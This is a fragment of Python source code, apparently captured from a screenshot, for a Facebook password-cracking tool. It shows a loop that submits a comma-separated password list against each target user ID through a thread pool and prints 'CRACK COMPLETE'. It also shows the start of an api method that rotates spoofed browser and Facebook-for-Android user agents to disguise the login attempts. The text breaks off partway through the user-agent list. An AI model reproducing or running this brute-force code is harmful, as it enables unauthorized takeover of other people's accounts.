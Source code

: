 				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n [>>] CRACK COMPLETE...")

		except Exception as e:exit(str(e))

	def api(self, uid, pwx):

		rua = random.choice([

			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]",

			  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)",

  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",

  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; CMDTDF; .NET4.0C; .NET4.0E; GWX:QUALIFIED)",

  "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:40.0) Gecko/20100101 Firefox/40.0.2 Waterfox/40.0.2",

  "Mozilla/5.0 (Linux; Android 5.0; SAMSUNG SM-N900T Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/2.1 Chrome/34.0.1847.76 Mobile Safari/537.36",

  "Mozilla/5.0 (Linux; Android 4.4.2; SM-T217S Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",

  "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MALNJS; rv:11.0) like Gecko",

  "Mozilla/5.0 (Linux; Android 4.4.2; RCT6203W46 Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",

  "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",

  "Mozilla/5.0 (Android; Tablet; rv:34.0) Gecko/34.0 Firefox/34.0",

  "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0; Touch)",

  "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/7.0; TNJB; 1ButtonTaskbar)",

  "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)",

  "Mozilla/5.0 (Linux; Android 4.0.4; BNTV400 Build/IMM76L) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.111 Safari/537.36",

  "Mozilla/5.0 (Linux; Android 4.0.4; BNTV600 Build/IMM76L) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.111 Safari/537.36",

  "Mozilla/5.0 (Linux; Android 4.4.2; SM-T237P Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",

  "Mozilla/5.0 (Linux; Android 4.4.2; SM-T530NU Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",
